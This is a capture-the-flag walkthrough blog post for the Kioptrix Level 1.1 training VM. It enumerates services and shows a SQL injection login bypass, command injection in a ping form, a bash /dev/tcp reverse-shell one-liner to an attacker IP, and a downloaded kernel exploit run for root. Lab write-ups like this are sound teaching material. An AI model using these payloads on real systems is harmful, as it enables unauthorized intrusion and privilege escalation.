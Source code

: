 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.1 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.1 Walkthrough, CTF solution for Kioptrix Level 1.1'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating: Easy</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 3.9p1 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 631</code></p></pc>
           </td>
           <td>
              <pc><p>CUPS</p></pc>
           </td>
           <td>
               <pc><p>CUPS 1.1</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 946</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>RPC</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 3306</code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL (unauthorized)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

The web form <code>/index.php</code> was vulnerable to [SQL injection](/penetration-testing/web-app/sql-injection/), entering the username <code>admin</code> and the password <code>' or '1'=' </code> successfully bypassed auth.  


![SQL Injection Auth Bypass](/img/blog/kioptrix/sql-injection-1-1.png)


<div class="note info">
  <h5>SQL Injection - Why does ' or '1'='1 work ?</h5>
  <p>

  The web application is expecting the SQL query:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password='blah'";</code>

  Entering the above <b>injects</b> the statement after the <code>password='blah'</code> and before the closing <code>";</code>, the entire sql injection query looks like:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password=' or '1'='1";"</code>

  <code>1 = 1</code> will always be <code>1</code>, thus the statement will return true, allowing an attacker to authenticate as admin. The above injection statement correctly closes the sql syntax, however it is possible to comment out the rest of the sql statement using: <code> -- -</code>

  </p>
</div>

![Command Injection](/img/blog/kioptrix/command-injection.png)

The above authentication bypass exposed a web form vulnerable to <b>command injection</b>, the form filtering only checks for the presence of the ping command with no filtering to prevent an attacker tacking a comment on the end using <code>; insert-command-here</code>.

## Non privileged shell

A non privileged reverse shell was obtained using:

{% highlight bash %}

ping google.com; bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.157] 32770
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
{% endhighlight %}

## Local privilege Escalation


{% highlight bash %}
bash-3.00$ uname -ar
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9545 --no-check-certificate
--02:27:58--  https://www.exploit-db.com/download/9545
           => `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]

    0K .........                                                30.10 MB/s

02:27:58 (30.10 MB/s) - `9545' saved [9785]

bash-3.00$ mv 9545 sock_sendpage.c                             
bash-3.00$ gcc -o sock_sendpage sock_sendpage.c
bash-3.00$ ./sock_sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
{% endhighlight %}

Thanks for the VM :)
